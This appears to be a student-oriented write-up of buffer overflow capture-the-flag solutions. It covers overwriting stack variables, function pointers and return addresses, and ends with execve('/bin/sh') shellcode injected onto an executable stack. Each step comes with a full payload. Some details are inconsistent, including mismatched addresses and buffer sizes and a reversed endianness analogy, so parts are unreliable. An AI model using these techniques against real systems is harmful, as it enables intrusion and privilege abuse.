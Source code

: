 # Solutions 
- This is a list of solutions to various *buffer overflow* challenges. 
- This is meant to ease students into the area, instead of drowning them on redirecting execution right away

## Firsty 
- The buffer is 32 characters long but accepts 0x100 characters. What happens if we write more than 32 characters? In particular, write 32 to get the flag. It's 32 and not 33 because of the NULL byte that gets written.
- The stack is setup in the following way:
	- my_string 
	- special_int 
- So, when the string gets added with more than 16 characters, then **cool_int** is overwritten!
- Simply corrupting this value is enough to pass the challenge.
- python3 -c 'print("A" * 32)' | ./firsty


## Dead 
- A little bit more tricky! 
- The overflow is the same as before, with the same stack setup. The ``my_string`` field of the struct overflows into ``special_int`` after 32 bytes. This is because the string itself is 32 bytes. 
- But, instead, we are using the overflow to **set** the integer value to a specific value! The char array is 32 byets long. Then, the integer is 4 bytes long.
- There are two main tricks to this: 
	- Writing the bytes properly 
	- Endianness
- Writing bytes: 
	- We are trying to write the integer 0xdeadbeef into memory.
	- The hex stream \xef is not a normal character. So, how do we write this? 
	- In Python (Python 2 at least) you can write escaped bytes with hex codes. 
	- Python example: print "\xef" 
		- This would print the literal byte 0xef
	- Common: 
		- Students will try to print the literal 0xdeadbeef. This will not work because this is intertuped as an integer.
- What is endianness? 
	- The ordering in which bytes are organized in memory. x86 is little Endian, meaning that the least significant byte appears first.
	- So, with 0xdeadbeef, we need to write this in the following way: 0xefbeadde. 
	- Remember, we are writing BYTES. 0xef is a SINGLE byte still.
- Final payload:
	- `python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'\xef\xbe\xad\xde')" | ./dead`
	- Prints the proper bytes (with the Python hex escaping) and prints it in the proper Endinness.

## KillPtr
### Vuln Hunting:
- This is the same vulnerability as the previous challenges: a linear buffer overflow inside the ``danger`` struct from the ``my_string`` field. 
- This time, there is an extra field called ``functionPtr`` on this challenge. We want to corrupt this to change the flow. 
	- It is our goal to edit the *function pointer address* to point to something that we want to call.
- Second, figure out the offset. It's the same 32 bytes as before then an additional 4 for the integer field. 
- Third, go into GDB to figure out the address of the function ``print_flag``. Do this by typing in `disas print_flag`. This will give you an address to jump the flow of the program to, which is 0x8048586. 

### Exploit
- 1. Because the OS's Endian, we need to turn the Big Endian (i.e. 0x80485c3) into little Endian (i.e. 0xc3850408). Notice that this is PER byte. 
- 2. Since we are writing raw values to the stack, we need to use hex code to do this. In order to do this, we must write the characters prefaced with `\x`. So, in the example, turn `0x565556b4` into `\xb4\x56\x55\x56`. Add this value to the payload.
- 3. If all is done right, you should have redirected execution of the program to where the flag is at, displaying the flag.
- 4. My final payload is `python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'B' * 4 + b'\x56\x88\x04\x08')" | ./killPtr`

## CorruptRet
- The concept is the same as the previous challenge for endianness and overflowing a pointer. But, this time, we are overwritting the EIP (instruction pointer) of the location. 
- The stack contains other important data relating to the previous stack frame: base pointer, stack pointer and instruction pointer. 
- If we can change the instruction pointer to be ``print_flag()`` then we can redirect the flow of execution! 
- The overflowing into the ``int`` is 32 bytes. 4 bytes through the int. Then, we have to care about the rest of the information on the stack. 
- Difference between ``&my_data`` and the location of the old IP is (0xffffd65c - 0xffffd62c) = 0x30. This is a total of 12 bytes more until the overflow. 
	- When ``leave()`` is called, this puts in the proper ebp from the previous frame is recovered. Additionally, there are two other bytes there that I am not sure about. 
	- The best way to find this offset is to *pause* at the first instruction of the function. 
	- Then, look at the stack pointer and you'll see the old EIP.
	- Compare this with the pointer to ``&my_data``. 
	- Subtract these pointers to get the amount of bytes to write. 
- Overflowing for 0x30 bytes will get us to the EIP. 
- Set this to the address of ``print_flag()`` like the previous challenge to get the flag.

```
python3 -c "import sys; sys.stdout.buffer.write(b'A' * 32 + b'B' * 4 + b'C' * 12 + b'\x56\x88\x04\x08')" | ./corruptRet
```

## execStack 
- Without an easy *win* function, we need to pop a shell on our own!
- Since the stack is executable, we can put our own code onto the stack and run that. But how!? 
	- The key to this is writing raw machine code. 
- We can put the raw machine code into the beginning of our input. Then, overwrite the return address (like the previous challenge) to jump to our machine code instead. 
	- The address of the machine code is printed at away in the program. 
	- Makes it obvious to see what's going on :) 
- You can find machine code (shellcode) online that works pretty quickly to pop a shell.
- A few tricks: 
	- Shellcode: 
		- Literally pops a shell.
		- Calling the syscall ``execve`` with ``/bin/sh`` as the parameters.
		```
		xor    %eax,%eax    -- Clean EAX to use as NULL
		push   %eax	        -- Push a null byte
		push   $0x68732f2f  -- Push part of /bin/sh
		push   $0x6e69622f  -- Push another part of /bin/sh
		mov    %esp,%ebx    -- Param 1 - binary to execute
		push   %eax         
		push   %ebx 
		mov    %esp,%ecx    -- Param 2 - Path of execution
		mov    $0xb,%al     -- The syscall (11) for execve
		int    $0x80        -- syscall interrupt
		```
		- https://shell-storm.org/shellcode/files/shellcode-827.html
	- Keeping the pipe open: 
		- The way we give input is SUPER important...if we don't have a way to interact with it, the code will DROP our input. 
		- So, we must have the extra ``cat -`` at the end of it. 
	- Stack pointer address will *differ* slightly between GDB and the live one. Keep this in mind.
- Shenanigans of the challenge: 
	- ``/bin/sh`` goes back to the original uid instead of the euid. So, we have to find a way to get the proper permissions for this...
		- This is done by becoming root then dropping the permissions to a user in the group that can read the flag. 
		- Now, the uid is the set and the shell will have the proper permissions. 
	- Clear edx: 
		- There is a short bit of assembler in the code...
		- This is because 'edx' being set to a non-null value screws everything up, since it acts as the third parameters ``envp``. 
		- Hence, we clear ``edx`` to make everyone's life easier. 
	- ASLR is turned off - so, the address can be static. It's even printed out to make our lives easier. 

```
(python3 -c "import sys; sys.stdout.buffer.write(b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + b'A' * (-23 + 32 + 4 + 12) + b'\x2c\xd6\xff\xff\x0A' + b'whoami')"; cat -) | ./execStack
```

What's going on!? 
- setuid is not working as expected on a forked call... 'system' doesn't inherit permissions from setuid. Probably a good thing! But... I've never seen this before!
- https://stackoverflow.com/questions/16258830/does-system-syscall-drop-privileges

### Further explanation:
- How the stack works:
    - On load of a function, the function address is pushed, followed by ebp then local variables (if needed).
    - Last on, first off style.
- Little Endian vs Big Endian:
    - https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html
    - The location of the significance of the value. Most general number systems are little Endian (little end first) 1234 would be 1 x10^3+ 2x10^2 + 3x10^1 + 4x10^0 for instance. Big Endian would be 4x10^3....
- gdb:
    - This is a debugger
    - https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
